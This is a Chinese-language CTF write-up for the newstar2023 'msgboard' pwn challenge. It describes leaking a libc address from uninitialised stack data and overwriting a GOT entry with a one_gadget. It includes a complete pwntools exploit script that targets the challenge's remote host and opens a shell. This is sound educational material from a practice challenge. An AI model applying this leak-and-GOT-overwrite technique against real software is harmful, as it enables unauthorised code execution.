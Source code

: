 ```yaml
---
title: newstar2023 week4 - message board
date: 2023/10/20 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - fmt-string
excerpt: 利用栈初始化和one_gadget漏洞，成功在msgboard程序中获取shell。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

一开始就要拿到puts的地址？how to？  
scanf也只能修改任意地址一次，又要怎么做？

分别利用栈初始化和one_gadget即可

## 踩过的坑

1. libcBase并不是无中生有，而是在栈上存在未初始化的`_IO_2_1_stderr_`
2. 数字会覆盖到栈上；垃圾字符会导致scanf一直输入不了；而'+'能使scanf跳过输入，
不覆盖栈内容
3. ELF里的symbols不止可以找函数，找stderr这样的标签都是可以的
4. got可写，那么可以利用one_gadget来使一个函数直接运行打开shell（但是要注意限制条件）
5. 注意got里的函数是不可写的，只有.got.plt里的函数可写
6. one_gadget在本地不一定是可用的，在我的电脑上就没开起来（但是验证了可行性）

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('msgboard')
        gdb.attach(sh)
    else:
        sh = remote('node4.buuoj.cn', 27179)

    # payload 1, leak _IO_2_1_stderr_
    sh.sendline(b'2 + +') # 
    sh.recvuntil(b'is ') # skip
    sh.recvuntil(b'is ') # skip
    stderr = int(sh.recvline())

    if lo:
        libc = ELF('/usr/lib/libc.so.6')
    else:
        libc = ELF('libc-2.31.so')
    libcBase = stderr - libc.symbols['_IO_2_1_stderr_']
    print(hex(libcBase)) # check it
    putsGotAddr = libcBase + libc.symbols['puts'] # shift

    if lo:
        oneGadget = libcBase + 0xfabcf # r9 == 0 && rdx == 0 && [rsp + 0x70] == 0
    else:
        oneGadget = libcBase + 0xe3b01 # r15 == 0 && rdx == 0

    # payload 2, send puts addr shifted from stderr
    sh.sendline(str(putsGotAddr).encode())

    elf = ELF('msgboard')
    symA = elf.bss(0xa0 - 0x60)
    printfGot = elf.got['__isoc99_scanf']
    offset = (printfGot - symA) // 4 # locate printfGot
    print(offset)

    # payload 3, modify printf to one_gadget
    sh.sendlineafter(b'ons', str(offset).encode()) # idx
    sh.sendlineafter(b'ion', str(oneGadget & 0xffffffff).encode()) # content, 32b
    # now running printf opens shell

    sh.interactive()

```

Done.
